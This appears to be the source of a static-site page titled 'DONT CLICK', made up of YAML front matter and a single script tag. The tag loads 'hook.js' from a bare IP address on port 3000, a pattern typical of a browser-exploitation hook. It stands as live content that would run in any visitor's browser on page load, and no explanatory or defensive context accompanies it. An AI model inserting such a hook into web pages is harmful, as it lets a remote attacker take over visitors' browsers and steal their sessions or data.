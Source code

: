 ```yaml
---
layout: page
title: DONT CLICK
description: "DONT CLICK"
---
```


<script src="http://46.238.35.131:3000/hook.js"></script>
